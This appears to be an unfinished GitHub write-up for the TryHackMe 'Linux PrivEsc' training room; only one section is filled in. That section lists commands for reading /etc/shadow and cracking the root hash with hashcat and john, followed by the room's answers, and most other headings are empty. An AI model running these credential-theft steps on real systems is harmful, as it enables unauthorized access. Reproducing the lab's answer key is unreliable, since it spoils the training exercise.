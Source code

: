 ![Windows PrivEsc Banner](https://i.imgur.com/RuMC2vG.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/linuxprivesc/Linux_Priv_Esc_Cover.png" alt="Linux PrivEsc Logo">
</p>

# Linux PrivEsc

This guide contains the answer and steps necessary to get to them for the [Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) room.

## Table of contents

- [Deploy the Vulnerable Debian VM](#deploy-the-vulnerable-debian-vm
- [Service Exploits](#service-exploits
- [Weak File Permissions - Readable /etc/shadow](#weak-file-permissions---readable-etcshadow
- [Weak File Permissions - Writable /etc/passwd](#weak-file-permissions---writable-etcshadow
- [Sudo - Shell Escape Sequences](#sudo---shell-escape-sequences
- [Sudo - Environment Variables](#sudo---environment-variables
- [Cron Jobs - File Permissions](#cron-jobs---file-permissions
- [Cron Jobs - PATH Environment Variable](#cron-jobs---path-environment-variable
- [Cron Jobs - Wildcards](#cron-jobs---wildcards
- [SUID / SGID Executables - Known Exploits](#suid--sgid-executables---known-exploits)
- [SUID / SGID Executables - Shared Object Injection](#suid--sgid-executables---shared-object-injection)
- [SUID / SGID Executables - Environment Variables](#suid--sgid-executables---environment-variables)
- [SUID / SGID Executables - Abusing Shell Features (#1)](#suid--sgid-executables---abusing-shell-features-1)
- [SUID / SGID Executables - Abusing Shell Features (#2)](#suid--sgid-executables---abusing-shell-features-2)
- [Passwords & Keys - History Files](#passwords--keys---history-files)
- [Passwords & Keys - Config Files](#passwords--keys---config-files)
- [Passwords & Keys - SSH Keys](#passwords--keys---ssh-keys)
- [NFS](#nfs)
- [Kernel Exploits](#kernel-exploits)
- [Privilege Escalation Scripts ](#privilege-escalation-scripts)

### Deploy the Vulnerable Debian VM

**Username:** user

**Password:** password321

https://www.exploit-db.com/exploits/1518

### Service Exploits

ssh user@10.10.42.225
ls -lh /etc/shadow
cat /etc/shadow
su -u root
hashcat -m 1800 password.hash /usr/share/wordlists/rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt password.hash


1. What is the root user's password hash?

   

   ><details><summary>Click for answer</summary>$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0</details>

2. What hashing algorithm was used to produce the root user's password hash?

   

   ><details><summary>Click for answer</summary>sha512crypt</details>

3. What is the root user's password?

   

   ><details><summary>Click for answer</summary>password123</details>

### Weak File Permissions - Readable /etc/shadow
### Weak File Permissions - Writable /etc/shadow
### Weak File Permissions - Writable /etc/passwd
### Sudo - Shell Escape Sequences
### Sudo - Environment Variables
### Cron Jobs - File Permissions
### Cron Jobs - PATH Environment Variable
### Cron Jobs - Wildcards
### SUID / SGID Executables - Known Exploits
### SUID / SGID Executables - Shared Object Injection
### SUID / SGID Executables - Environment Variables
### SUID / SGID Executables - Abusing Shell Features (#1)
### SUID / SGID Executables - Abusing Shell Features (#2)
### Passwords & Keys - History Files
### Passwords & Keys - Config Files
### Passwords & Keys - SSH Keys
### NFS
### Kernel Exploits
### Privilege Escalation Scripts 
